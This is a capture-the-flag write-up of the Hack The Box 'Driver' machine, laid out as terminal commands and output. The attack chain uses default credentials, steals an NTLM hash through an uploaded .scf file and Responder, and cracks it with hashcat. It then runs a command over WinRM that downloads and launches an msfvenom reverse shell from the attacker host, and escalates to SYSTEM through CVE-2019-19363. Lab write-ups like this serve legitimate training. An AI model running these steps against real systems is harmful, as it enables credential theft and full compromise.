

# Target
| Category          | Details                                                                 |
|-------------------|-------------------------------------------------------------------------|
| 📝 **Name**       | [Driver](https://app.hackthebox.com/machines/Driver)                    |  
| 🏷 **Type**       | HTB Machine                                                             |
| 🖥 **OS**         | Windows                                                                 |
| 🎯 **Difficulty** | Easy                                                                    |
| 📁 **Tags**       | HTTP Basic Auth, SMB, .scf, Responder, NTLM, Metasploit, CVE-2019-19363 |

# Scan
```
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2025-10-12T18:49:01
|_  start_date: 2025-10-12T18:44:09
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

# Attack path
1. [Gain initial foothold by cracking captured NTLMv2 hash for user `tony`](#gain-initial-foothold-by-cracking-captured-ntlmv2-hash-for-user-tony)
2. [Escalate to `Administrator` user by exploiting CVE-2019-19363](#escalate-to-administrator-user-by-exploiting-cve-2019-19363)

### Gain initial foothold by cracking captured NTLMv2 hash for user `tony`

#### Discover HTTP Basic authentication username in `realm` label
```
┌──(magicrc㉿perun)-[~/attack/HTB Driver]
└─$ curl -I http://$TARGET                                   
HTTP/1.1 401 Unauthorized
Content-Length: 0
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.25
WWW-Authenticate: Basic realm="MFP Firmware Update Center. Please enter password for admin"
Date: Mon, 13 Oct 2025 14:37:50 GMT
```

#### Use `admin:admin` credentials to access web application
```
┌──(magicrc㉿perun)-[~/attack/HTB Driver]
└─$ curl -I -u 'admin:admin' http://$TARGET
HTTP/1.1 200 OK
Content-Length: 0
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.25
Date: Mon, 13 Oct 2025 14:45:31 GMT
```

#### Access firmware upload page at `/fw_up.php` 


Following description:
> Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon.

suggests that firmware will be uploaded to SMB share and eventually someone will access it. We could try upload resource with UNC path leading to attacker machine and try to steal NTLM hash with `responder`.

#### Prepare payloads to NTLM hash stealing
```
┌──(magicrc㉿perun)-[~/attack/HTB Driver]
└─$ python3 ~/Tools/ntlm_theft/ntlm_theft.py -g all -s $LHOST -f firmware
Created: firmware/firmware.scf (BROWSE TO FOLDER)
Created: firmware/firmware-(url).url (BROWSE TO FOLDER)
Created: firmware/firmware-(icon).url (BROWSE TO FOLDER)
Created: firmware/firmware.lnk (BROWSE TO FOLDER)
Created: firmware/firmware.rtf (OPEN)
Created: firmware/firmware-(stylesheet).xml (OPEN)
Created: firmware/firmware-(fulldocx).xml (OPEN)
Created: firmware/firmware.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: firmware/firmware-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: firmware/firmware-(includepicture).docx (OPEN)
Created: firmware/firmware-(remotetemplate).docx (OPEN)
Created: firmware/firmware-(frameset).docx (OPEN)
Created: firmware/firmware-(externalcell).xlsx (OPEN)
Created: firmware/firmware.wax (OPEN)
Created: firmware/firmware.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: firmware/firmware.asx (OPEN)
Created: firmware/firmware.jnlp (OPEN)
Created: firmware/firmware.application (DOWNLOAD AND OPEN)
Created: firmware/firmware.pdf (OPEN AND ALLOW)
Created: firmware/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: firmware/firmware.library-ms (BROWSE TO FOLDER)
Created: firmware/Autorun.inf (BROWSE TO FOLDER)
Created: firmware/desktop.ini (BROWSE TO FOLDER)
Created: firmware/firmware.theme (THEME TO INSTALL
Generation Complete.
```

#### Start `reponder` to intercept SMB network traffic
```
┌──(magicrc㉿perun)-[~/attack/HTB Driver]
└─$ sudo responder -I tun0
<SNIP>
[+] Listening for events...
```

#### Upload `firmware.scf` file 
```
┌──(magicrc㉿perun)-[~/attack/HTB Driver]
└─$ cat firmware/firmware.scf                                                                                      
[Shell]
Command=2
IconFile=\\10.10.16.17\tools\nc.ico
[Taskbar]
Command=ToggleDesktop

┌──(magicrc㉿perun)-[~/attack/HTB Driver]
└─$ curl -u 'admin:admin' http://$TARGET/fw_up.php -F "firmware=@firmware/firmware.scf" -F "printers=HTB DesignJet"
```

#### Capture NTLMv2 hash
```
[SMB] NTLMv2-SSP Client   : 10.129.21.202
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:35aeeda384a51788:14C221CCDE38097E2B0251C7A3BF29B8:0101000000000000806CC7A42D3CDC01F8BC921221F9633C00000000020008004E0059005600540001001E00570049004E002D00560046004600300036004900380047005A003000320004003400570049004E002D00560046004600300036004900380047005A00300032002E004E005900560054002E004C004F00430041004C00030014004E005900560054002E004C004F00430041004C00050014004E005900560054002E004C004F00430041004C0007000800806CC7A42D3CDC0106000400020000000800300030000000000000000000000000200000C3260178A65F427F9031152E8C0AA263B840F191E918F2E9581F0A9E3C0CDC220A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E0031003700000000000000000000000000
```

#### Crack NTLMv2 hash with `hashcat`
```
┌──(magicrc㉿perun)-[~/attack/HTB Driver]
└─$ hashcat -m 5600 'tony::DRIVER:e6166d7c263ebcf5:CD2988032BD54ECC9A59408DA5C5816B:01010000000000000073F93D9B3BDC0156DDEF29BC9E826F00000000020008004C0036005300440001001E00570049004E002D0044005400300030005100330054004B0032005500530004003400570049004E002D0044005400300030005100330054004B003200550053002E004C003600530044002E004C004F00430041004C00030014004C003600530044002E004C004F00430041004C00050014004C003600530044002E004C004F00430041004C00070008000073F93D9B3BDC0106000400020000000800300030000000000000000000000000200000B5B4281E210D3290903019899CA70FA6CF7113743725556537A1F797673BAE270A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E0031003700000000000000000000000000' --quiet /usr/share/wordlists/rockyou.txt
TONY::DRIVER:e6166d7c263ebcf5:cd2988032bd54ecc9a59408da5c5816b:01010000000000000073f93d9b3bdc0156ddef29bc9e826f00000000020008004c0036005300440001001e00570049004e002d0044005400300030005100330054004b0032005500530004003400570049004e002d0044005400300030005100330054004b003200550053002e004c003600530044002e004c004f00430041004c00030014004c003600530044002e004c004f00430041004c00050014004c003600530044002e004c004f00430041004c00070008000073f93d9b3bdc0106000400020000000800300030000000000000000000000000200000b5b4281e210d3290903019899ca70fa6cf7113743725556537a1f797673bae270a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0031003700000000000000000000000000:liltony
```

#### Generate `windows/x64/meterpreter/reverse_tcp` reverse shell and host it over HTTP
```
┌──(magicrc㉿perun)-[~/attack/HTB Driver]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f exe \
    -o shell.exe && \
python3 -m http.server
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Start Metasploit and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Driver]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload windows/x64/meterpreter/reverse_tcp; run"
[*] Starting persistent handler(s)...
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => windows/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.16.17:4444
```

#### Spawn reverse shell connection using `crackmapexec winrm`
```
┌──(magicrc㉿perun)-[~/attack/HTB Driver]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
crackmapexec winrm $TARGET -u tony -p liltony -x "powershell wget http://$LHOST:8000/shell.exe -OutFile C:\Users\tony\Documents\shell.exe; powershell C:\Users\tony\Documents\shell.exe"
SMB         10.129.21.202   5985   DRIVER           [*] Windows 10 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        10.129.21.202   5985   DRIVER           [*] http://10.129.21.202:5985/wsman
WINRM       10.129.21.202   5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

#### Confirm foothold gained
```
[*] Sending stage (203846 bytes) to 10.129.21.202
[*] Meterpreter session 1 opened (10.10.16.17:4444 -> 10.129.21.202:49430) at 2025-10-13 17:53:03 +0200

meterpreter > getuid
Server username: DRIVER\tony
```
 
### Escalate to `Administrator` user by exploiting [CVE-2019-19363](https://nvd.nist.gov/vuln/detail/cve-2019-19363)

#### Confirm that current session is non-interactive
```
meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User         Path
 ---   ----  ----                     ----  -------  ----         ----
 <SNIP>
 3188  3164  explorer.exe             x64   1        DRIVER\tony  C:\Windows\explorer.exe
 4256  3360  shell.exe                x64   0        DRIVER\tony  C:\Users\tony\Documents\shell.exe
```

#### Migrate to `explorer.exe` (PID 3188) to make session interactive
```
meterpreter > migrate 3188
[*] Migrating from 4256 to 3188...
[*] Migration completed successfully.
```

### Run `exploit/windows/local/ricoh_driver_privesc`
Exploit found with `post/multi/recon/local_exploit_suggester`.
```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/ricoh_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/local/ricoh_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ricoh_driver_privesc) > set session 1
session => 1
msf exploit(windows/local/ricoh_driver_privesc) > set lhost tun0
lhost => tun0
msf exploit(windows/local/ricoh_driver_privesc) > set lport 5555
lport => 5555
msf exploit(windows/local/ricoh_driver_privesc) > run
[*] Started reverse TCP handler on 10.10.16.17:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Adding printer kQxDbtBC...
[*] Sending stage (203846 bytes) to 10.129.21.202
[+] Deleted C:\Users\tony\AppData\Local\Temp\pesxT.bat
[+] Deleted C:\Users\tony\AppData\Local\Temp\headerfooter.dll
[*] Meterpreter session 2 opened (10.10.16.17:5555 -> 10.129.21.202:49431) at 2025-10-13 18:02:28 +0200
[*] Deleting printer kQxDbtBC

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
